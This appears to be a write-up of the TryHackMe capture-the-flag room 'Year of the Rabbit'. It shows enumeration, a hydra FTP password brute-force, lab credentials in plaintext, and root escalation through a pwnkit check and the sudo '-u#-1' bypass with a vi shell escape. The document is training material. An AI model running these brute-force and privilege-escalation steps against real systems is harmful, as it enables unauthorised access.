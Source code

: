 ```yaml
---
title: Walkthrough - Year of the Rabbit
published: true
---
```


Time to enter the warren... Can you hack into the Year of the Rabbit box without falling down a hole?

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- running nmap we get a few open ports

```shell
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
```

- a gobuster scan gives us /assets/ and checking the stylesheet there we get a hint

```css
 Nice to see someone checking the stylesheets.
 Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

- accessing this page takes us to a page where it tells us to disable javascript. We can do this in Firefox by visiting ``about:config`` - this takes us to ``/sup3r_s3cret_fl4g/`` and another flag inside of the video? Nope- Rickrolled

- now running the request to ``/sup3r_s3cr3t_fl4g.php`` and capturing with burp proxy we see a hudden dir. ``/WExYY2Cv-qU``

![0xskar](/assets/rabbit01.png)

![0xskar](/assets/rabbit0.png)

- download the hot babe she's hiding something.
- running ``strings`` on her we get the information needed to access the ftp server
- ``Eh, you've earned this. Username for FTP is ftpuser`` followed by a list of passwords?
- ``hydra -l ftpuser -P ftp_passes.lst 10.10.220.193 ftp`` to get our credentials for the ftp
- login to the ftp server and mget eli's creds.
- eli's creds are a brainfuck cipher. dcode.fr to get access

* * * 

## User Flag

- eli:DSpDiM1wAEwid
- ``find / -type d -iname "s3cr3t" 2>/dev/null``

```shell
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root

eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ cd /home
gwendoline@year-of-the-rabbit:/home$ ls
eli  gwendoline
gwendoline@year-of-the-rabbit:/home$ cd gwendoline/
gwendoline@year-of-the-rabbit:~$ ls -las
total 24
4 drwxr-xr-x 2 gwendoline gwendoline 4096 Jan 23  2020 .
4 drwxr-xr-x 4 root       root       4096 Jan 23  2020 ..
0 lrwxrwxrwx 1 root       root          9 Jan 23  2020 .bash_history -> /dev/null
4 -rw-r--r-- 1 gwendoline gwendoline  220 Jan 23  2020 .bash_logout
4 -rw-r--r-- 1 gwendoline gwendoline 3515 Jan 23  2020 .bashrc
4 -rw-r--r-- 1 gwendoline gwendoline  675 Jan 23  2020 .profile
4 -r--r----- 1 gwendoline gwendoline   46 Jan 23  2020 user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt
```

* * * 

## Root Flag

```shell
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

- ``[+] 10.10.220.193 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.``

- alternatively
- ``sudo --version``

- ``sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt``

- and then in vi ``:!/bin/bash``

* * * 
